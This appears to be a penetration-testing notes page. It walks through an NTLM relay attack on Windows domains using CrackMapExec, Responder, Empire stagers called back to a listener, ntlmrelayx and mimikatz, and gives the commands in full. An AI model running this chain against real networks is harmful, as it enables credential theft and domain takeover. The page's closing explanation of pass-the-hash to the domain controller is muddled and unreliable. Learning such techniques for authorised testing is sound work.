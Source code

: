 ### Responder with NTLM relay attack

byt3bl33d3r has written some good guides on this attack. See [b3t3bl33d3r's guide](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)

NetNTLMv2 is microsoft's challenge and response protocol. When authenticating to a server the user's hash followed by the server's challenge is used. With relaying hashes you simply take the NetNTLMv2 hash you collected and relay it to a set of hosts and hopefully the user\(s\) have administrator access. Then you execute a payload and woop de doo you have an admin shell.

In a windows AD environment 9 times out of 10 all the workstations share the same local administrator password. You might be really lucky and both hosts  and servers share the same local administrator password as well. At that point it becomes a discovery mission for where the domain admins are logged in.

Before we can do that we must generate a list of hosts in the domain suspectible to our attack. That is indicated by SMB-signing being disabled, which is default in most Windows OSs, except the Server.

Execute this from the CrackMapExec package:

```
cme smb <CIDR> --gen-relay-list targets.txt
```

Where the CIDR is your domain subnet. This generates a list of hosts which have SMB-signing disabled. The Server versions of Windows have SMB-signing enabled so you can't relay to that one. Also important is the fact that you can't relay to the host the request orginated from.

#### Responder

https://www.sternsecurity.com/blog/local-network-attacks-llmnr-and-nbt-ns-poisoning

Responder does not pick up on FQDN queries, but it does pick up on NetBIOS and LLMNR, because Windows boxes are very chatty. When Windows boxes try to authenticate to things like file shares they default to NetBIOS for queries. This occurs with the use of NetNTLMv2 hashes.

Responder captures these NetNTLMv2 hashes. You can not pass the hash with these but you can crack them or you can relay them to other machines. This part will only explain how to run Responder and capture hashes.

**Start Responder**
```
Responder -I eth0 -wrf
```

Where -I is for interface and eth0 is your interface. The -wrf is optional, but -f is useful as it fingerprints the OS version. The other options are explained with -h.

To try this out in your lab, open explorer on a Windows machine and type `\\share\` in the address bar and wait for the credential prompt. This will trigger a name resolution request over SMB to find a resource using the current account's credentials. That should allow Responder to capture the NetNTLMv2 hash of the user making the request and print them in your terminal.

You can now crack the hashes using your favorite tool, but another alternative is relaying those hashes.

Now so far, Responder had set up an HTTP and SMB server to act as a middleman between the one requesting a resource and the file share. We now want to give our captured hashes to the tool NTLMrelay, so we edit `Responder.conf` to turn off the HTTP and SMB server.

After that is done, run Responder like before:

```
Responder -I eth0 -wrf
```

#### Empire

Now getting into Empire shouldn't be too hard if you are familiar with tools such as Metasploit. A short guide can be found [here](https://www.sw1tch.net/2015/08/11/powershellempire-5-minute-quick-start-guide-featuring-kali-linux-andor-debian-8-0/).

Start up Empire, open a listener and create a so called stager, point it to your listener. The generated output is your payload. Note that this kind of output is normally picked up by antivirus in real environment.

```
./empire
uselistener http
set Port 81
execute
back
usestager multi/launcher
set Listener http
generate
agents
```

#### NTLMrelay

Now perform the actual relaying using ntlmrelay from the Impacket library.

```
ntlmrelayx.py -tf targets.txt -c <insert your Empire Powershell launcher here>
```

Now copypaste the payload from Empire into the NTLMrelay command above. This will execute the payload for every box it relays to and it should be raining shells very soon. You will see a message in Empire saying it got an agent when it's successful. You will also see hashes written in the terminal while it's running.

#### Back to Empire

Now in my lab environment I have had some trouble where agents are not always spawned or hashes are not captured. Here's what you can try:

* Trigger a few requests from the Windows machines using the `\\share\` trick.
* Restart all the tools.
* Reset Empire's database.
* Reboot the Windows machines.
* Execute the payload from cmd inside a Windows computer to check if it's actually working. \(You should get an agent instantly\).

Ok, so you have an agent now. Sometimes the interaction with agents in Empire  agent can be painstakingly slow, so have some patience when running commands. Try whoami, sysinfo and other basic commands. Sometimes, the agents timeout and you'll have to spawn new ones. Kill and/or remove old ones using `kill` and `remove`.

Once you have administrator access to a box you can run mimikatz, which is bundled with Empire. If you're lucky you'll get DA credentials in plaintext, because as previously explained Windows stores those in memory. If you have a local administrator hash on the hosts you can use CrackMapExec to do a mass mimikatz. Basically what it does is a pass the hash on multiple hosts, runs the mimikatz sekurlsa::loggonpasswords and returns output. Hopefully one of them is a DA and game over. Now this might be a bit confusing so lkys37en explained this the following way:

> Say you're an IT administrator. You're logged into your workstation and your account has domain admin rights. I come along and pop a admin shell on another workstation. I grab the hash and do a pass the hash with the local administrator account to your box and then run mimikatz. If you're running Windows 7 and 8 I'll get the NTLM hash and plaintext credentials. If you're running Windows 8.1 and above I only get the NTLM hash.

What this means is that you gain the local admin hash, and pass it to the DC which proves you are admin on DA, which allows you to do mimikatz and extract DA credentials. You're hoping the IT administrators used the same local administrator account on all workstations.

To check if the user is part of the Domain Admins group, run `net user "Domain Admins" /domain`

Now if you're so lucky that you're a DA you can start looking into lateral movement modules in Empire to get into the DC and have some fun.

